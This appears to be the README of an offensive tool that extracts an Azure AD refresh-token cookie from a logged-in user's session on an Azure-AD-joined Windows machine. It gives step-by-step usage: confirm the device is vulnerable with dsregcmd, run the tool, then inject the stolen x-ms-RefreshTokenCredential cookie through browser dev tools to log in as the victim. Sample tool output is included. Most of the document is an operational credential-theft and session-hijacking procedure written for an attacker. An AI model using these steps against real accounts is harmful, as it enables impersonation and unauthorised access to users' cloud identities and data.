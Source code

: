 # Overview
Obtains a refresh token for an Azure-AD-authenticated Windows user (i.e. the machine is joined to Azure AD and a user logs in with their Azure AD account). An attacker can then use the token to authenticate to Azure AD as that user.


# Usage
1. Obtain access to a user context on an Azure-AD-joined device. An easy way to tell is to run the command `dsregcmd.exe /status`. If this is abuseable, there will be a section titled "SSO State" and `AzureAdPrt` will be set to YES.
2. Run RequestAADRefreshToken.exe
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"

DONE
```
3. Clear your browser cookies and go to https://login.microsoftonline.com/login.srf
4. F12 (Chrome dev tools) -> Application -> Cookies
5. Delete all cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token(JWT) in the `Data` field that RequestAADRefreshToken.exe output
6. Refresh the page (or visit https://login.microsoftonline.com/login.srf again) and you'll be logged it


# References
* https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token#how-are-app-tokens-and-browser-cookies-protected
* https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token#browser-sso-using-prt
* https://docs.microsoft.com/en-us/azure/active-directory/devices/troubleshoot-device-dsregcmd#sso-state
